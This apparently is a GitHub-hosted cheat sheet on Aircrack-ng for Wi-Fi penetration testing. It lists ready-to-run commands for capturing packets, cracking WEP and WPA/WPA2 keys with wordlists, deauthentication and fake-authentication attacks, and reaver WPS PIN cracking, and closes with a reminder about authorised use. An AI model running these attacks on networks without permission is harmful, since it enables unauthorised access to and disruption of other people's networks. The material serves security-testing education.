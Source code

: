 
Aircrack-ng is a suite of tools designed for auditing wireless networks. It is primarily used for assessing the security of Wi-Fi networks and is commonly employed for penetration testing, network monitoring, and cracking WEP and WPA/WPA2-PSK encryption keys. 

Here’s how Aircrack-ng can be effectively used in ethical hacking:

#### 1\. Wi-Fi Network Auditing

Aircrack-ng can be used to assess the security of Wi-Fi networks by capturing data packets and analyzing them for vulnerabilities. This process can help identify weak encryption methods, default passwords, and unauthorized network access points.

#### 2\. Testing WEP and WPA/WPA2 Encryption

One of the most critical tasks for ethical hackers is assessing the security of WEP and WPA/WPA2-encrypted networks. Aircrack-ng can be used to test the strength of these encryption methods and identify weak or compromised keys.

#### 3\. Monitoring Network Traffic

Aircrack-ng includes tools for monitoring and analyzing network traffic. This can be instrumental in identifying unauthorized users, rogue access points, and unusual network activity that could signal a security breach.

#### 4\. Password Cracking

In ethical hacking, Aircrack-ng can be employed to test the strength of passwords used for Wi-Fi networks. This can help network administrators identify weak or easily guessable passwords and encourage the use of stronger, more secure ones.



## Cracking WEP & WAP/WAP-2 Keys

**1\. Capturing Packets:**

- `airodump-ng <interface>`: Start capturing Wi-Fi traffic on the specified network interface.

```c
airodump-ng <interface>
```
  
- `airodump-ng --channel <channel> --bssid <BSSID> -w <output_file> <interface>`: Capture packets on a specific channel and BSSID (MAC address) and save them to a file.



**2\. Cracking WEP Encryption:**

- `aircrack-ng -a 1 -b <BSSID> -e <ESSID> <capture_file-01.cap>`: Attempt to crack a WEP key using a captured packet file.

```c
aircrack-ng -b <BSSID> <capture_file>
```

**3\. Cracking WPA/WPA2 Encryption:**

- `aircrack-ng -w <wordlist> -b <BSSID> <capture_file-01.cap>`: Use a wordlist to attempt to crack a WPA/WPA2 key.

```c
aircrack-ng -w <wordlist> -b <BSSID> <capture_file>
```

**4\. Deauthentication Attack:**

- `aireplay-ng --deauth <count> -a <BSSID> -c <client> <interface>`: Perform a deauthentication attack to force a client to disconnect from the Wi-Fi network.

```c
aireplay-ng --deauth <count> -a <BSSID> -c <client_MAC> <interface>
```

**5\. Fake Authentication:**

- `aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <fake_MAC> <interface>`: Fake authentication to the target network.

```c
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <MAC_address> <interface>
```

**6\. Cracking WPS PIN:**

- `reaver -i <interface> -b <BSSID> -c <channel> -vv`: Use the Reaver tool to crack the WPS PIN of a router.

**7\. Crack WEP Key**

```c
aircrack-ng -b AA:BB:CC:DD:EE:FF capture.cap
```

**8\.Crack WPA/WPA2-PSK Key**

```c
aircrack-ng -w rockyou.txt -b AA:BB:CC:DD:EE:FF capture.cap
```

**9\. Verifying the Cracked Key:**

- After a successful key crack, use the obtained password to connect to the Wi-Fi network and confirm that it works.

It’s important to reiterate that these commands should only be used in a legal and authorized context with explicit permission from the network owner. 







